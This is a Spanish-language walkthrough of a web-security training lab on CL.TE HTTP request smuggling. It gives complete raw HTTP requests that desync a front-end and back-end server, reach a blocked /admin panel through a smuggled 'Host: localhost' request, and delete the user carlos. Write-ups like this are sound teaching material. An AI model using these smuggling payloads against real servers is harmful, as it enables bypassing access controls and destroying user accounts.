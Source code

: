 	
### La descripción del laboratorio
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.
### Primero
Confirmo si es un CL.TE.
```
POST / HTTP/1.1
Host: 0ad400e903a9e00a811dde740096000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```
La respuesta da un time out, por lo que ya se que el frot-end prioriza el content-length por sobre el Transfer-Encoding.
### Acceder al panel /admin
Es CL.TE, por lo que ni siquiero le doy a la opcion de "Update Content-length" ya que quiero que el frontend me toda la request al back-end. 
La request:
```
POST / HTTP/1.1
Host: 0ad400e903a9e00a811dde740096000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0ad400e903a9e00a811dde740096000c.web-security-academy.net

```
El servidor responde con que solo esta permitido usuario locales, por lo que 
```
POST / HTTP/1.1
Host: 0ad400e903a9e00a811dde740096000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost

```
Luego envío otra solicitud get en la misma ruta,
Lo cual me da un 400:
"error":"Duplicate header names are not allowed"
Esto es porque tenemos la solicitud que vemos arriba (tecnicamente son dos, pero el frontend ve una) , y la segunda request, la cual es una normal que bien podría ser un navegante en la web:
```
POST / HTTP/1.1
Host: 0ad400e903a9e00a811dde740096000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```
, entonces lo que el backend ve es esto:
```HTTP
POST / HTTP/1.1
Host: 0ad400e903a9e00a811dde740096000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0ad400e903a9e00a811dde740096000c.web-security-academy.netPOST / HTTP/1.1
Host: 0ad400e903a9e00a811dde740096000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
Osea que hay dos header iguales.
Para solucionar esto, se puede incluir la request dentro del body, utilizando una X=
```HTTP
POST / HTTP/1.1
Host: 0ad400e903a9e00a811dde740096000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 115
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=\n
```
Por lo que la siguiente request se va a concatenar a la otra, entonces envíamos la request envenenada, la quequest normal
```normal
POST / HTTP/1.1
Host: 0ad400e903a9e00a811dde740096000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Y esto nos responde con el screen de admin, donde hay links que borran usuarios, así que lo usamos como path:
```
POST / HTTP/1.1
Host: 0ad400e903a9e00a811dde740096000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```